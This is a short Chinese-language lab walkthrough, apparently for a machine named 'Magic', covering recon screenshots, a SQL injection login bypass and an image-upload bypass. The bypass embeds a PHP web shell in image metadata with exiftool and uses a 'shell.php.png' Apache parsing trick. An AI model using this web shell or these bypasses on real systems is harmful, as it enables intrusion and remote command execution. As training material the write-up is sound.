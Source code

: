 ## nmap

![image-20250402171145487](Magic/image-20250402171145487.png)

## dirsearch

![image-20250402171526168](Magic/image-20250402171526168.png)

## 80端口

简单sql注入绕过登录

![image-20250402174635214](Magic/image-20250402174635214.png)

文件只允许上传图片，尝试过后不是前端验证，并且直接传一句话木马也会被识别

![image-20250402174705761](Magic/image-20250402174705761.png)

![image-20250402174820732](Magic/image-20250402174820732.png)

将命令注入正常图片中，生成一个图片马

```shell
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png

exiftool poc.jpg -documentname="<?php echo exec(\$_REQUEST['cmd']); ?>"
```

生成的图片马可以成功上传，但是想要让php代码解析就不能以图片格式上传，中间件是apache，可能存在apache解析漏洞，

回到index.php可以看到刚才上传的图片，将文件名改为`shell.php.png`

![image-20250402180902847](Magic/image-20250402180902847.png)

index.php下有图片，可以查看图片的路径，替换为自己上传的文件名即可访问

![image-20250402175104411](Magic/image-20250402175104411.png)

![image-20250402181042339](Magic/image-20250402181042339.png)